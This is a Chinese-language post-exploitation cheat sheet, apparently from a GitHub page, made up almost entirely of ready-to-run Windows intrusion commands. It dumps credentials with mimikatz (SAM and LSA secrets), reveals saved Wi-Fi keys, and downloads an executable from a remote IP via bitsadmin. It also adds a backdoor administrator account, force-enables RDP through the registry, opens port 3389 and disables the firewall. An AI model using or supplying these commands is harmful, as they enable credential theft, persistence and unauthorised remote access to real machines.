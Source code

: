 * 发现远程登录密码等密码 netpass.exe
下载https://www.nirsoft.net/utils/network_password_recovery.html
* 获取window vpn密码：

	mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  
	
* wifi密码：  

	netsh wlan show profile 查处wifi名下一条命令用
	netsh wlan show profile WiFi-name key=clear
	
* ie代理  

	reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet Settings" /v ProxyServer  
	reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"
	
* pac代理  

	reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet Settings" /v AutoConfigURL   //引自 t0stmail
	
* 查看 user 可以的登录主机，```adfind -h 192.168.1.101 -sc u:test```  
查看结果 userworkstations 的值即为可登录主机
下载 link http://www.joeware.net/freetools/tools/adfind/index.htm

### 一些命令
---

	ping          icmp连通性
	nslookup www.baidu.com vps-ip dns连通性
	dig @vps-ip www.baidu.com
	curl vps:8080  http连通性
	tracert
	bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >=2008
	fuser -nv tcp 80 查看端口pid
	rdesktop -u username ip linux连接win远程桌面 (有可能不成功)
	where file win查找文件是否存在 
	找路径，Linux下使用命令find -name *.jsp来查找，Windows下，使用for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
	netstat -apn | grep 8888   kill -9 PID   查看端口并kill

## 3389
---

判断是内网，还是外网，内网转发到vps

	netstat -ano,没有开启3389端口,复查下
	tasklist /svc,查svchost.exe对应的TermService的pid,看netstat相等的pid即3389端口.

### 添加user
---

```net user admin1 admin1 /add & net localgroup administrators admin1 /add```

如不允许远程连接，修改注册表  
```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f  
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f  
```
如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许3389端口，命令如下:   
```netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow  ```  

关闭防火墙  
```netsh firewall set opmode mode=disable  ```

```